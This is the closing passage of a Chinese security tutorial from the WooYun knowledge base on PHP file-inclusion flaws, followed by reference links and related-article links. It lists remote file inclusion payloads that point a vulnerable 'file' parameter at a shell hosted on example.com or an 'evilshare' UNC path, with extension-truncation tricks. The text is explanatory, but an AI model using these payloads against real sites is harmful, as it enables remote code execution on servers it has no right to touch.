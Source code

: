 *   ?file=http://example.com/shell

*   ?file=http://example.com/shell.txt?

*   ?file=http://example.com/shell.txt%23

(需要 allow_url_fopen=On 并且 allow_url_include=On)

*   ?file=\evilshare\shell.php (只需要 allow_url_include=On)

## 0x05 延伸

* * *

其实在前面也说了，这些漏洞产生原因是 PHP 函数在引入文件时，传入的文件名没有经过合理的校验，从而操作了预想之外的文件。实际上我们操作文件的函数不只是 include()一个，上面提到的一些截断的方法同样可以适用于以下函数：

![](http://drops.wooyun.org/wp-content/uploads/2014/11/file0002_png.jpg)

参考文章:

http://websec.wordpress.com/2009/11/28/freebsd-directory-listing-with-php-file-functions/

http://www.digininja.org/blog/when_all_you_can_do_is_read.php

http://wiki.apache.org/httpd/DistrosDefaultLayout

http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/

http://www.coresec.org/2011/05/12/local-file-inclusion-to-remote-command-execution-using-ssh/

http://www.ush.it/2009/02/08/php-filesystem-attack-vectors/

http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

http://diablohorn.wordpress.com/2010/01/16/interesting-local-file-inclusion-method/

版权声明：未经授权禁止转载 [Kuuki](http://drops.wooyun.org/author/Kuuki "由 Kuuki 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP 漏洞挖掘思路+实例 第二章](http://drops.wooyun.org/tips/858)
*   [下载文件的 15 种方法](http://drops.wooyun.org/tips/2420)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [攻击 JavaWeb 应用[8]-后门篇](http://drops.wooyun.org/tips/662)
*   [Android Content Provider Security](http://drops.wooyun.org/tips/4314)
*   [漏洞利用与卡巴斯基的对抗之路](http://drops.wooyun.org/tips/2903)
